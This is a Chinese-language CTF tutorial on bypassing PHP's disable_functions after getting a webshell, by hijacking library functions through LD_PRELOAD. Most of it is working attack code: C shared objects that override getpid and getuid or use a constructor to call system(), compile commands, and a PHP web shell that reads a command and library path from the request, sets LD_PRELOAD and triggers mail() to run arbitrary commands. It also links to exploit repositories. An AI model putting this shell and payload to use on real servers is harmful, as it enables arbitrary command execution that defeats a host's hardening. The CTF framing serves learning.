




## 基础知识

有一部分CTF题目，当你拿到webshell，蚁剑连接上去之后，却不能执行系统命令，这就是要绕过 `disable_function` 了



可以看到禁用了很多函数

```
apache_child_terminate,apache_setenv,chgrp,chmod,chown,curl_exec,curl_multi_exec,dl,exec,imap_mail,imap_open,ini_alter,ini_restore,ini_set,link,mail,openlog,parse_ini_file,passthru,pcntl_alarm,pcntl_exec,pcntl_fork,pcntl_setpriority,pcntl_signal,pcntl_signal_dispatch,pcntl_sigprocmask,pcntl_sigtimedwait,pcntl_sigwaitinfo,pcntl_wait,pcntl_waitpid,pcntl_wstopsig,pcntl_wtermsig,popen,posix_kill,proc_get_status,proc_open,proc_terminate,putenv,readlink,shell_exec,symlink,syslog,system
```

## LD\_PRELOAD 劫持系统函数

> LD\_PRELOAD 是linux系统的一个环境变量，它可以影响程序的运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。

所以我们就可以通过利用环境变量LD\_PRELOAD劫持系统函数，让外部程序加载恶意的.so文件，达到执行系统命令的效果

例如：

```
$ LD_PRELOAD=/path/to/my/malloc.so /bin/ls
```

即在执行`ls`命令前，会先加载指定路径的`malloc.so`文件，如果这是一个恶意共享对象，那么可以执行任意操作。

我们可以通过`readelf`命令查看某个命令调用了哪些外部链接库，然后找到其中某个库，编写同名函数进行劫持，然后编译成共享对象文件，接着使用`LD_PRELOAD`环境变量指定生成的对象，达到命令执行的目的。

### 一个简单的劫持示例

`getpid.c` 的内容如下

```c
#include <sys/types.h>
#include <unistd.h>

void payload(void){
    system("echo 'pwned by getpid!'");
}

pid_t getpid(void){
    if (getenv("LD_PRELOAD") == NULL){
        return 0;
    }

    unsetenv("LD_PRELOAD");
    payload();

    return 0;
}
```

我们在这里劫持了 `getpid` 函数，由于python运行的时候使用了 `getpid` 函数，所以可以通过 `LD_PRELODAD` 来执行任意命令

```
gcc -shared -fPIC getpid.c -o getpid.so
LD_PRELOAD=./getpid.so python
```

执行效果



注意：因为通过设置`preload`劫持了比较底层的函数，而派发出的新进程如果用到该函数也会一并被劫持，也就是说如果没有及时`unsetenv("LD_PRELOAD")`则会导致不断循环，一旦操作敏感就会比较危险，所以一定要及时删除这个环境变量，

所以绕过php disable\_function也就比较简单了

> php中的mail、error\_log函数是通过调用系统中的sendmail命令实现的(其他类似php中的函数还有imap\_mail、mb\_send\_mail[参考](https://github.com/l3m0n/Bypass_Disable_functions_Shell))，sendmail二进制文件中使用了getuid库函数，这样我们可以覆盖getuid函数。

写一个 `getuid`

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int  getuid() {
const char* cmdline = getenv("EVIL_CMDLINE");
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
system(cmdline);
}
```

`gcc -shared -fPIC geteuid.c -o getuid.so` 编译成动态链接库。

然后再写一个php文件，设置好 `EVIL_CMDLINE` 环境变量，同时需要执行 so 文件地址

```php
<?php
    $cmd = $_REQUEST["cmd"];
    $out_path = $_REQUEST["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_REQUEST["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";  
?>
```

## 无需劫持函数绕过 disable\_function

[下载地址](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD?files=1&tdsourcetag=s_pcqq_aiomsg)

> GCC 有个 C 语言扩展修饰符**attribute**((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行**attribute**((constructor)) 修饰的函数。

于是修改一下原来的共享链接库代码

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void getuid() {
const char* cmdline = getenv("EVIL_CMDLINE");
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
system(cmdline);
}
```

> 这意味着，我们只需要找到该php环境中存在执行系统命令的函数、且putenv函数未被禁用的情况下，就可以绕过disable\_function。

演示一下

```c
#include <unistd.h>

void payload(void){
    system("echo 'pwned!'");
}

__attribute__ ((__constructor__)) void exec(void){
    if (getenv("LD_PRELOAD") == NULL){
        return;
    }

    unsetenv("LD_PRELOAD");
    payload();

    return;
}
```



## php7绕过disable\_funtion

[脚本地址](https://github.com/mm0r1/exploits)

## ctfhub题目

### LD\_PRELOAD

使用蚁剑连接之后，直接加载插件，之后生成一个 `.antproxy.php` ，选择这个文件连接即可(密码不变)



## 参考

[https://kylingit.com/blog/%E5%88%A9%E7%94%A8ld\_preload%E7%BB%95%E8%BF%87disbale\_functions/](https://kylingit.com/blog/利用ld_preload绕过disbale_functions/)

[https://j7ur8.github.io/WebBook/PHP/LD\_PRELOAD%E5%8A%AB%E6%8C%81%E7%B3%BB%E7%BB%9F%E5%87%BD%E6%95%B0.html](https://j7ur8.github.io/WebBook/PHP/LD_PRELOAD劫持系统函数.html)

[https://blog.szfszf.top/article/37/](https://blog.szfszf.top/article/37/)
